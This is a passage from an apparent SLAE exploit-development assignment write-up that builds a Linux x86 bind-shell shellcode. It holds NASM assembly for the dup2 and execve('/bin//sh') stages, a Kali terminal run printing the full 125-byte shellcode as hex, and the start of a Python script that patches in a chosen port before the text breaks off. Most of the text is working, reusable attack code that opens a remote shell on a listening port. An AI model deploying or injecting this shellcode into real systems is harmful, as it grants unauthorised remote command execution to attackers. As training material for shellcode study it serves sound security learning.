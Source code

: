 ```nasm
dup2:
xor ecx, ecx
xchg ebx, eax ;set accept fd as argument in ebx
              ;and making sure eax<=0xFF for the eax  part below (so that it only equals 0x3f below).

jump:

mov al, 0x3f ; dup2 sys call
int 0x80 ;int dup2(int oldfd, int newfd);
inc ecx ;
cmp ecx,0x2 ; call dup for stdin,stdout,stderr
jle jump

execve:
xor eax,eax
push dword [esp-8] ; referencing null being pushed below
push eax ;ends /bin//sh with null and argv and envp as null arguments

mov edx, esp; envp
mov ecx, esp ; argv
push 0x68732f2f;//sh
push 0x6e69622f;/bin
mov ebx, esp
mov al, 0xb ;; execve(const char *filename, char *const argv[],char *const envp[]);
int 0x80
```

The size of the shellcode is 125 bytes which is somewhat reasonable for a beginner.



```sh
root@kali:~/SLAE/assignment-1# ../tools/compile.sh bind_shell
Done
root@kali:~/SLAE/assignment-1# ../tools/shellcode.sh bind_shell
\x31\xc0\x50\x40\x50\x40\x50\xb0\x66\x8b\x5c\x24\x04\x89\xe1\xcd\x80\xc1\xe3\x18\xb3\x7f\x53\x31\xdb\x66\xb9\x13\x11\xc1\xe1\x10\xb1\x02\x51\x89\x64\x24\xf8\x6a\x10\x83\xec\x04\x50\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x89\x44\x24\x04\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x6a\x10\x54\x8d\x4c\x24\x10\x51\xff\x74\x24\x0c\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x31\xc9\x93\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\xff\x74\x24\xf8\x50\x89\xe2\x89\xe1\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

Part of the assignament was to make the port number configurable, this python script sets it based on user input:

```python
#!/usr/bin/python
import sys, struct

shellcode=r"\x31\xc0\x50\x40\x50\x40\x50\xb0\x66\x8b\x5c\x24\x04\x89\xe1\xcd\x80\xc1\xe3\x18\xb3\x7f\x53\x31\xdb\x66\xb9\xab\xcd\xc1\xe1\x10\xb1\x02\x51\x89\x64\x24\xf8\x6a\x10\x83\xec\x04\x50\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x89\x44\x24\x04\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x6a\x10\x54\x8d\x4c\x24\x10\x51\xff\x74\x24\x0c\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x31\xc9\x93\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\xff\x74\x24\xf8\x50\x89\xe2\x89\xe1\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

port = int(raw_input("Port number:"))

if port>0xFFFF:
    print "Port is bigger than 2 bytes, ie > 65535, exiting."
    sys.exit()

portH = hex(port)[2:]

```